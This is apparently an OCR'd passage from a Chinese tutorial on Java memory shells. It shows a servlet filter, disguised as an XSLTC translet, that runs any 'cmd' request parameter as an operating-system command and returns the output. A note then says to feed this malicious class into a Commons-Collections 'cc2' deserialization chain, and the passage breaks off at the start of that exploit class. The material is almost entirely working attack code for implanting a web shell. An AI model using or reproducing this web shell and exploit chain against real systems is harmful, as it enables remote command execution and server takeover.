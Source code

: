 ```plain
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("cmd") != null) {
            //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
            String[] cmds = {"cmd", "/c", request.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            byte[] bcache = new byte[1024];
            int readSize = 0;
            try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream()) {
                while ((readSize = in.read(bcache)) != -1) {
                    outputStream.write(bcache, 0, readSize);
                }
                response.getWriter().println(outputStream.toString());
            }
        }


    }

    @Override
    public void destroy() {
    }
    public static void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
        field.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
    }
}
```

将恶意类的 class 文件，传入 cc2 构造 payload

```plain
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class cc2 {
```